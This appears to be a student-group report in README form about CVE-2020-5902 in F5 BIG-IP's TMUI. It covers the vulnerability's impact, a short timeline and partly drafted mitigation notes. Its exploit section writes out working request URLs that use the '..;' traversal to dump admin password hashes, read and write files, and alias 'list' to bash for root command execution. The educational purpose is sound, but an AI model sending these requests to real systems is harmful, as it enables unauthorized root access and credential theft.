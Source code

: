 # CVE 2020-5902

![alt text](https://www.zdnet.com/a/hub/i/2020/07/03/b6c96e0e-7da9-461a-adff-d6009723189a/f5-networks.jpg "F5 Networks Logo")

_Presented by: Tharmiga Loganathan, Manavjot Singh, Mili Choksi_

**Vulnerability Highlights:**

CVSS 3.x: 9.8 (Critical)

CVSS 2.0: 10.0 (High)

_The CVE 2020-5902 vulnerability impacted F5 Network's suite of load-balancing software products called BIG-IP last July. It is a code injection attack that can give hackers root level privileges to vulnerable systems! According to Shodan, there were 8,000 exposed devices at one point with an estimated 2,000 of those devices actually vulnerable to this exploit._

> **What is Shodan?**
> At first look, Shodan can be used to search devices connected to the Internet according to different filters. However, in more negative use-cases, it can be used streamline the process of searching for vulnerable devices.

**Outline:**

* Intro, scale
* What is BIGIP - load balancer
* The exploit
* Create alias explanation
* How to check if you are vulnerable
* Mitigation
* Could still be impacted, use resource integrity!... explain
* So this is a story on why it's important to secure your permissions, and stay up to date on big vulnerabilities that come out!
  

## What is BIG-IP? + Why Should I Care?

BIG-IP is a family of software and hardware solutions from F5 Networks. While it originally started out as a load balancer, it has now expanded to offer complimentary services such as traffic management, access control, security and optimization. Load balancers work by providing a virtual IP on behalf of numerous other devices. This is a service that allows large scale applications to seamlessly serve its customers without a bottleneck. 

This exploit is particularly impactful because it can not only impact the load balancing server itself but also any device that is behind the load balancer. 
  
Moreover, even if you aren't running an F5 BIG-IP device, but have some external link to a javascript library included in your application, your application may also be exposed! If the resource happens to be behind a BIG-IP load balancer that is vulnerable, your application can also be exploited. Using subresource integrity can help make you immune to this sort of vulnerability and it is also best practice when it comes to including external libraries in your application, more on this will be discussed later in the reprot. This highlights the importance of staying on top of cybersecurity news and taking all precautions posisble when building your application!

## CVE Timeline

There has been a rise in the number of vulnerabilities among similar software products around the time this vulnerability came out. The very day the exploit got out, F5 Networks has created many articles, videos, and Q&A sessions designed to help its customers keep their systems safe. But it didn't take long for **many** proof of concept code snippets to pop up on GitHub.

![alt text](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/images/blog/PoC%20scripts%20published%20to%20GitHub.png "GitHub Exploit Code")

Let's dive right into the exploit now!

## The Exploit

This code injection vulnerability impacts the TMUI (configuration utility for the BIG-IP) and can allow unauthenicated users to execute system commands, create or delete files, disable services or execute Java code. The TMUI is a web application that is installed within the device that provides an admin interface. The following is the vulnerable URL:
```
https://[hostname]/tmui/login.jsp
```
The exploit is a "..;", the following is an exploitable URL that will return a list of all of the admin users along with their password hashes:
```
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

> **The Three Most Common Exploits**
> 
> Execute Command (only allows for tmsh commands):
> ```
> /tmui/locallb/workspace/tmshCmd.jsp
> ```
> 
> Read Files:
> ```
> /tmui/locallb/workspace/fileRead.jsp
> ```
> 
> Write Files:
> ```
> /tmui/locallb/workspace/fileSave.jsp
> ```

While the above execute command can only access tmsh commands, you can use "create alias" to allow the hacker to execute any bash command as the root user! "Create alias" can be used to link "list" command in tmsh to "bash". This gives full root access to the linux interface:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

AFter you send in the above command, any following command that you send in using "list" will actually be sending and executing a "bash" command!

Instead of continually executing one line bash commands, you can create a bash script and save it suing the command we learned above. This is what it will look like to save a bash script:
```
fileSave.jsp?fileName=/tmp/cmd&content=id
```
Then to execute the script (remember "list" now means "bash":
```
tmshCmd.jsp?command=list+/tmp/cmd
```

In order to delete the alias and clean up:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list
```

[The typical sequence]

## Mitigation

Test to see if you are vulnerable
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/f5-release
```

Check if you are vulnerable: code 
Check logs to see if you have been exploited
Never expose admin interface to the public
  F5 has said multiple times not to do this
  But if you did anyway, you are vulnerable

• update software
• ensure mgmt port is not publically accessible
• lock down self ip ports "allow none"
• var/log to see if it has been breached

## What now?

[content]

## Resources

https://www.tenable.com/blog/cve-2020-5902-critical-vulnerability-in-f5-big-ip-traffic-management-user-interface-tmui
BIG IP
https://www.youtube.com/watch?v=D6J_j7HdkV8&ab_channel=F5DevCentral 
Self IP
https://www.youtube.com/watch?v=ZeDP6D7fEwM&ab_channel=SteveLyons
The basics of the exploit
https://www.youtube.com/watch?v=hS8ptpsmgJE&ab_channel=F5DevCentral
the exploit - SANS
https://www.youtube.com/watch?v=NmZFwE537Zg&ab_channel=SANSInstitute

